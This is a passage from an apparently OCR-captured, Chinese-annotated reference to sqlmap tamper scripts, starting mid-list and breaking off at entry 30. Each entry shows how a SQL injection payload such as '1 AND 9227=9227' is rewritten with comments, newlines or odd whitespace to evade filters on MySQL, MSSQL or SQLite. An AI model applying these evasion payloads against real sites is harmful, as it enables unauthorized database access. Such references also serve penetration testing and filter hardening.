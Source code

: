 ```
Input: 1 AND 9227=9227-- 
Output: 1 AND 9227=9227--sp_password 
Requirement: 
MSSQL 

(21) space2comment.py 以区块注释替换空格 
Example: 
Input: SELECT id FROM users 
Output: SELECT/**/id/**/FROM/**/users 

(22) space2dash.py 以单行注释”--”和随机的新行替换空格 
Example: 
Input: 1 AND 9227=9227 
Output: 1--PTTmJopxdWJ%0AAND--cWfcVRPV%0A9227=9227 
Requirement: 
MSSQL 
SQLite 

(23) space2hash.py 以单行注释”#”和由随机字符组成的新行替换空格 
Example: 
Input: 1 AND 9227=9227 
Output: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227 
Requirement: 
MySQL 


(25) space2mssqlblank.py 以随机空白字符替换空格 
Example: 
Input: SELECT id FROM users 
Output: SELECT%08id%02FROM%0Fusers 
Requirement: 
Microsoft SQL Server 

(26) space2mssqlhash.py 以单行注释”#”和新行替换空格 
Example: 
Input: 1 AND 9227=9227 
Output: 1%23%0A9227=9227 
Requirement: 
MSSQL 
MySQL 

(27) space2mysqlblank.py 以随机空白字符替换空格 
Example: 
Input: SELECT id FROM users 
Output: SELECT%0Bid%0BFROM%A0users 
Requirement: 
MySQL 

(28) space2mysqldash.py 以单行注释和新行替换空格 
Example: 
Input: 1 AND 9227=9227 
Output: 1--%0AAND--%0A9227=9227 
Requirement: 
MySQL 
MSSQL 

(29) space2plus.py 以”+”替换空格 
Example: 
Input: SELECT id FROM users 
Output: SELECT+id+FROM+users 

(30) space2randomblank.py 随机空白字符替换空格 
Example: 
```